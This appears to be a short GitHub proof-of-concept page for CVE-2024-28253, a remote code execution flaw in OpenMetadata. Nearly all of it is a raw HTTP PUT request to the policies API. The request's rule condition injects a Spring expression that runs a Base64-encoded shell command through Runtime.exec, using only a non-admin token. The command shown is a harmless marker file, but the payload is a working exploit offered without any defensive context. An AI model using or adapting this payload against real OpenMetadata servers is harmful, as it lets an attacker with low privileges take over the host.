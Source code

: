 # OpenMetadata_policies_rce
from : https://github.com/wy876/POC/blob/main/OpenMetadata%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2024-28253).md

2024.5.6 @2

```
PUT /api/v1/policies HTTP/1.1
Host: localhost:8585
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Authorization: Bearer <non-admin JWT>
accept: application/json
Connection: close
Content-Type: application/json
Content-Length: 367

{"name":"TeamOnlyPolicy","rules":[{"name":"TeamOnlyPolicy-Rule","description":"Deny all the operations on all the resources for all outside the team hierarchy..","effect":"deny","operations":["All"],"resources":["All"],"condition":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA==')))"}]}

```
